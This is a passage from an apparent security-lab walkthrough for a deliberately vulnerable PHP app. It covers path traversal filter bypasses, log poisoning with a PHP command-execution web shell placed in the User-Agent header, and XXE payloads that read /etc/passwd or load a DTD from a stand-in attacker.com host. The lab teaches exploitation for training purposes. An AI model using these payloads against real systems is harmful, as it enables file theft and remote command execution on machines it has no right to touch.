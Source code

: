 **Step 3: Bypass directory traversal filter**
- Filter blocks: `../`
- Bypass: `index.php?f=....//....//etc/passwd`
- Or: `index.php?f=/var/log/apache2/access.log`

**Step 4: Log poisoning attack**
- Poison Apache access logs with PHP code in User-Agent
- User-Agent: `<?php system($_GET['cmd']); ?>`
- Include log file: `index.php?f=/var/log/apache2/access.log&cmd=whoami`

---

## Lab 7: XML External Entity (XXE) (xxe/)

**Step 1: Analyze login process**
- Navigate to `xxe/login.php`
- Notice it sends XML data to `check.php`

**Step 2: Intercept login request**
- Use Burp Suite to intercept the XML request
- Original XML structure:
```xml
<login>
    <user>guest</user>
    <pass>guest</pass>
</login>
```

**Step 3: Basic XXE payload**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<login>
    <user>&xxe;</user>
    <pass>guest</pass>
</login>
```

**Step 4: Advanced XXE - Out-of-band**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/xxe.dtd">%xxe;]>
<login>
    <user>guest</user>
    <pass>guest</pass>
</login>
```

**Step 5: File disclosure**
- Try reading: `/etc/passwd`, `/etc/hosts`, `C:\Windows\System32\drivers\etc\hosts`
- Sensitive files: `/var/www/html/config.php`

---

## Lab 8: Cross-Origin Resource Sharing (CORS) (cors/)
